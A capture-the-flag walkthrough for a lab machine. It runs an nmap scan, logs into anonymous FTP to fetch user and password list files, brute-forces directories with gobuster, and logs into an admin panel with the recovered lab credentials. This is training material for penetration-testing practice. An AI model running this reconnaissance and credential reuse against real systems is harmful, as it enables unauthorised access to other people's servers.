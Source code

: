 1. **Scan all the ports using default scripts and determine service and version of open ports**
```bash
nmap -sV -sC [target ip]
```
--> port 21/tcp - open - ftp     
	ftp-anon: Anonymous FTP login allowed -->
		allowed.userlist / allowed.userlist.passwd

--> port 80/tcp - open- http


2. **Move inside the machine, get the files "allowed.userlist" and "allowed.userlist.passwd" and exit**
```bash
ftp [target ip]
	Connected to [target ip]
	Name ([target ip]:kali): Anonymous
	Login successful.
ftp> ls
	allowed.userlist / allowed.userlist.passwd
ftp> get allowed.userlist
	Transfer completed
ftp> get allowed.userlist.passwd
	Transfer completed
ftp> exit
```


3. **Check out the php and html web directories with Gobuster**
```bash
gobuster dir -u http://[target ip]/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php, html
	/assets --> http://[target ip]/assets/
	/css --> http://[target ip]/css/
	/js --> http://[target ip]/js/
	*/logout.php --> http://[target ip]/login.php/
	/config.php
	/fonts --> http://[target ip]/fonts/
	/dashboard --> http://[target ip]/dashboard/
```
--> Try the URLs on your browser and check that in **"http://[target ip]/login.php/"** , we can see a login page


4. **Try the usernames and passwords that we got from the ftp server**
```bash
aron - root
pwnmeow - Supersecretpassword1
egotisticalsw - @BaASD&9032123sADS
admin - rKXM59ESxesUFHAd
```
--> When you write admin and his password, you only have to Capture the Flag which is at the top of the admin panel. That's it!
